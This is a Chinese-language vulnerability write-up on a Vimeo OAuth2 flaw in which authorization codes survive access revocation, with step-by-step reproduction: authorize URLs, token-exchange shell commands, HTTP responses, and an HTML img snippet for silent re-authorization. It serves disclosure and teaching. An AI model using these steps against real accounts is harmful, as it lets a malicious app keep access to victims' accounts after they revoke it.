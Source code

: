 ## 前言

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


类型: OAuth API.

![img_8.png](img_8.png)

![img_9.png](img_9.png)

`getAccessToken.sh`
![img_12.png](img_12.png)

`me.sh`
![img_11.png](img_11.png)

`URL GET/POST data: POST METHOD:`

`https://api.vimeo.com/oauth/authorize?response_type=code&client_id=79658bbee0da8be5254a5137bc0fcc93f7059a2a&redirect_uri=https://avuln.com/callback&scope=public&state=0123456789abcdef`


`https://avuln.com/callback?state=0123456789abcdef&code=e1fa87cd449ae55b74445b31ac79450c14eeb657`

## 漏洞描述
OAuth2 API允许用户将访问他们账户的权限授予第三方应用程序。当然，用户能够管理此类应用程序对其帐户的访问，并可能拒绝任何应用程序的访问。当某些用户拒绝对应用程序的访问时，所有的access_token都将被撤销并变得无效。但是不仅access_tokens应该被撤销，授权码(它是OAuth2授权流中使用的中间令牌)也必须被撤销。
在撤销访问时，Vimeo OAuth2 API没有撤销其授权代码。它可能被利用恢复访问用户帐户后，恶意应用程序撤销访问。

## 复现步骤
1)打开应用的OAuth2授权链接; <br>
`https://api.vimeo.com/oauth/authorize?response_type=code&client_id=79658bbee0da8be5254a5137bc0fcc93f7059a2a&redirect_uri=https://avuln.com/callback&scope=public&state=0123456789abcdef`


2)登录您的Vimeo帐户(如果需要的话)，点击允许;

3)从回调url复制code值，例如: <br>
`https://avuln.com/callback?state=0123456789abcdef&code=e1fa87cd449ae55b74445b31ac79450c14eeb657`

这里code值为`e1fa87cd449ae55b74445b31ac79450c14eeb657`

4)使用code值获取access_token:  <br>
```shell
$ ./getAccessToken.sh e1fa87cd449ae55b74445b31ac79450c14eeb657

{ 
  "access_token": "d3ac3bb53d1c4ebc3de7d28e4ed801c0", 
  "token_type": "bearer", 
  "scope": "public private", 
  "user": { 
    "uri": "/users/39285903",
    <... CUT OUT ... >
    }

```

5)检查access_token的有效性
```shell
$ ./me.sh d3ac3bb53d1c4ebc3de7d28e4ed801c0

HTTP/1.1 200 OKDate: Tue, 21 Apr 2015 14:10:29 GMTServer: nginxContent-Type: application/vnd.vimeo.user+jsonCache-Control: no-cache, max-age=315360000Expires: Fri, 18 Apr 2025 14:10:29 GMTContent-Length: 2930Accept-Ranges: bytesVia: 1.1 varnishAge: 0X- Served-By: cache-fra1239-FRAX-Cache: MISSX-Cache-Hits: 0X-Timer: S1429625429.334602,VS0,VE203Vary: Accept,Vimeo-Client-Id,Accept-Encoding{ "uri": "/users/39285903",< ... CUT OUT ... >}

```

6)重复步骤1中我的测试申请链接:
`https://api.vimeo.com/oauth/authorize?response_type=code&client_id=79658bbee0da8be5254a5137bc0fcc93f7059a2a&redirect_uri=https://avuln.com/callback&scope=public&state=0123456789abcdef`

7)重复步骤2登录到你自己的帐户(如果需要)，然后单击允许。

注意:不难想象应用程序需要用户再通过一次身份验证。许多应用程序不存储长期会话，而是强迫用户每天甚至经常登录/授权。

注2:OAuth提供程序通常允许使用`approval_prompt=auto`参数，这使得不需要用户再次单击allow。我没有发现这种可能性的Vimeo API，但如果这可能的，在这种情况下，恶意应用程序只需要把它的网站(或每当在互联网)像下面这样的:
```html
<html> 
<img src="https://api.vimeo.com/oauth/authorize?response_type=code&client_id=79658bbee0da8be5254a5137bc0fcc93f7059a2a&redirect_uri=https://avuln.com/callback&scope=public&state=0123456789abcdef">
</html>
```
这样的代码将“静默地”产生新的access_token值，在用户每次加载它时进行回调。


8)从回调url中复制code值并保存以备以后使用:
`https://avuln.com/callback?state=0123456789abcdef&code=82e24f835184f47cd83f249907e7b d5018bf62c9`

code值为`82e24f835184f47cd83f249907e7bd5018bf62c9`

9)进入帐户安全设置`https://vimeo.com/settings/apps`


10)从Apps部分断开应用程序(如果我的测试应用程序使用Dor1s Test1)


11)为了确保访问被拒绝，重复步骤5:
```shell
$ ./me.sh d3ac3bb53d1c4ebc3de7d28e4ed801c0

HTTP/1.1 401 Authorization Required
Date: Tue, 21 Apr 2015 14:23:55 
GMTServer: nginx
Content-Type: application/vnd.vimeo.error+json
Cache-Control: no-cache, max- age=315360000WWW-Authenticate: Bearer error="invalid_token"Expires: Fri, 18 Apr 2025 14:23:55 GMTContent-Length: 53Accept-Ranges: bytesVia: 1.1 varnishX-Served-By: cache- fra1245-FRAX-Cache: MISSX-Cache-Hits: 0X-Timer: S1429626235.146346,VS0,VE105Vary: Accept,Vimeo-Client-Id,Accept-Encoding{ "error": "A valid user token must be passed."}
```

12)使用步骤8中的code值，并将其交换为access_token:

```shell
$ ./getAccessToken.sh 82e24f835184f47cd83f249907e7bd5018bf62c9

{ 
  "access_token": "9eabdc746910ea39c07395ee1b69a2b9", 
  "token_type": "bearer",
   "scope": "public private",
    "user": { "uri": "/users/39285903",
    <... CUT OUT ...>
    }
```

13)检查access_token的有效性:
```shell
$ ./me.sh 9eabdc746910ea39c07395ee1b69a2b9
HTTP/1.1 200 OKDate: Tue, 21 Apr 2015 14:25:41 
GMTServer: nginx
Content-Type: application/vnd.vimeo.user+jsonCache-Control: no-cache, max-age=315360000Expires: Fri, 18 Apr 2025 14:25:41 GMTContent-Length: 2930Accept-Ranges: bytesVia: 1.1 varnishAge: 0X- Served-By: cache-fra1235-FRAX-Cache: MISSX-Cache-Hits: 0X-Timer: S1429626341.087757,VS0,VE201Vary: Accept,Vimeo-Client-Id,Accept-Encoding{ "uri": "/users/39285903",<... CUT OUT ...>}
```


## 漏洞影响

该漏洞允许恶意应用程序保持对受害者帐户的访问活动，即使访问已经被撤销。不仅绕过了授权，而且还剥夺了受害者管理应用程序访问的能力。